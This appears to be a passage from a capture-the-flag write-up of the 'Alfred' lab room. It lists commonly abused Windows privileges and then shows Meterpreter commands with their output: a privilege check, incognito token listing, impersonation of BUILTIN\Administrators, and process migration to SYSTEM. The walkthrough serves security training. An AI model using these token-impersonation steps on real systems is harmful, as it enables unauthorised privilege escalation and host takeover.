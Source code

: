 where the security context is a data structure that contains users' relevant security information.

The privileges of an account(which are either given to the account when created or inherited from a group) allow a user to carry out particular actions. Here are the most commonly abused privileges:
Here are the most commonly abused privileges:
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

all this is from the room.


now let check user service privilages
```console
meterpreter > load powershell # load poweshell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS> whoami /priv # check user service privilages

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled
```
Alfred have 2 enabled privilages that we can abuse:
1. SeImpersonatePrivilege
2. SeDebugPrivilege
Let's use the incognito module that will allow us to exploit this vulnerability. Enter: `load incognito` to load the incognito module in metasploit. read more about incognito [here](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/)
```console
meterpreter > load incognito
meterpreter > list_tokens -g # list token 
meterpreter > impersonate_token "BUILTIN\Administrators" # copy token
meterpreter > ps # look for any NT AUTHORITY\SYSTEM priv process, best on is service.exe
meterpreter > migrate <PID>
```